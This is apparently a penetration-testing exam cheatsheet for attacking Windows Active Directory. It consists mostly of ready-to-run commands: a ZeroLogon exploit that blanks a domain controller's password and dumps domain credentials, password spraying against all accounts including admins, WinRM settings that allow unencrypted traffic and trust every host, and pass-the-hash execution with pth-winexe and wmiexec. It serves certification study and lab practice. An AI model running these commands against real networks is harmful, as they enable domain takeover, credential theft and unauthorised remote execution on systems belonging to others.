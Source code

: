 Kerberos attack cheatsheet:
* https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a#kerberos-cheatsheet

### ZeroLogon Vulnerability

Try Zerologon (requires reset after use as account pw is set to empty)
* Source: https://github.com/risksense/zerologon
* Affects ALL Windows Server versions, but we want to target DCs (high-value).
```bash
# set computer account password to an empty string.
$ python3 set_empty_pw.py [dc_computername] [dc_ip]
$ python3 set_empty_pw.py xor-dc01 10.11.1.120 

# dump domain creds
$ python secretsdump.py -hashes :[empty_password_hash] '[domain]/[dc_computername]$@[dc_ip]'
$ python secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'xor/xor-dc01$@x.x.x.x'
```

### Password Spraying
* Dumped plaintext cred or cracked hash for your user?
* However, no creds/hashes for other users/SPN to use for lateral movement?
* Does the plaintext cred follow some pattern? e.g. `IAmUser01, IAmUser02 ...`
* Use `spray-passwords.ps1` script: https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1
```powershell
# test password against all users in the AD, including admins.
PS> .\spray-passwords.ps1 -Admin -Pass IamUser01
PS> .\spray-passwords.ps1 -Admin -Pass IamUser02
...
```

### Plaintext Credentials
```bash
# RDP clients
$ rdesktop [target]
$ remmina -c rdp://[username]:[password]@[target]

# WinRM client (used in compromised computer) - ensure WSMAN port 5985 is open on target
PS> winrm quickconfig                                               # start winrm service
PS> winrm set winrm/config/Client @{AllowUnencrypted = "true"}      # allow HTTP
PS> Set-Item WSMan:localhost\client\trustedhosts -value *           # trust all hosts
cmd> winrs -u:[username] -p:[password] -r:http://[target]:5985/wsman "cmd" # execute command

# Admin groups but with a "MANDATORY LABEL\MEDIUM" context?
# Try UAC bypass technique.
# See https://github.com/brianlam38/OSCP-2022/blob/main/cheatsheet-main.md#user-account-control-uac-bypass
```

### Pass-the-Hash
* Requires user/service account to have local admin rights on target, as connection is made using the `Admin$` share.
* Requires SMB connection through the firewall
* Requires Windows File and Print Sharing feature to be enabled.
```bash
# Method 1
$ pth-winexe -U [domain]/[username]%[blank_hash]:[ntlm_hash] //[target] [command_to_exec]
$ pth-winexe -U xor/Administrator%aad3b435b51404eeaad3b435b51404ee:08df31234567890bf6 //10.1.1.1 cmd.exe
^OR try without domain prefix in -U flag

# Method 2
$ python wmiexec.py Administrator@[target] -hashes [LM]:[NT/NTLM]
$ python wmiexec.py Administrator@10.11.1.22 -hashes [leavebankifnoLM]:ee12345067801f38115019ca2fb
```